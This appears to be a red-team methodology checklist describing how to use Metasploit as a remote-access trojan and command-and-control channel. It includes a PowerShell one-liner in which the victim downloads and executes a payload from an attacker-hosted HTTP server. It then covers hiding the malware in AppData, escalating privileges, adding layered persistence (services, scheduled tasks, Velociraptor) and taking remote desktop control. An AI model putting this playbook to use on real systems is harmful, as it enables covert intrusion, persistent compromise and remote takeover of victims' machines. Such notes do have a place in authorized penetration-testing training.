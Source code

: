
> For the next demonstration we will use metasploit as a RAT / C2

- [ ] First create a malware that evade AVs, see [[AV Evasion]]
- [ ] Then serve your malware with a simple http server with python
- [ ] Start you metasploit listener and "set ExitOnSession false" to contiously listen
- [ ] The victim have to download and execute the malware : 
```powershell
wget http://192.168.0.12:8000/reverse.exe -o $env:TEMP\jkr.exe; Invoke-Item $env:TEMP\jkr.exe
# NOTE : Here our malware is named jkr.exe
```
- [ ] Then duplicate your metasploit sessions by rerunning your malware one more time (we do this because we want a backup session in case we broke our current session)
- [ ] Then apply a first persistence at user level, best to see: [[2 - Methodology/Papers/Red/PostExploitation/Persistence/Windows/Run on boot]] 
- [ ] Then elevate your privileges, best to see : [[ask for UAC]]
- [ ] Duplicate your malware elsewhere in the filesystem (in a less obvious location), for example the `AppData\Roaming` directory and use this new copy of your malware for new steps
```powershell
cp $env:Temp\jkr.exe "C:\Users\talion\AppData\Roaming\"
```
- [ ] Once you are `NT AUTHORITY\SYSTEM`, apply a second persistence with higher privileges, see [[2 - Methodology/Papers/Red/PostExploitation/Persistence/Windows/Services]] or [[2 - Methodology/Papers/Red/PostExploitation/Persistence/Windows/Scheduled tasks]]
- [ ] Install a third more stealth and resilient persistence with [[Velociraptor]]
- [ ] Then get a remote GUI desktop, you could take a look at [[metasploit vnc]], [[metasploit rdp]], [[rustdesk]] and [[HowToEnableRDP]], or check Hidden VNC (HVNC) techniques
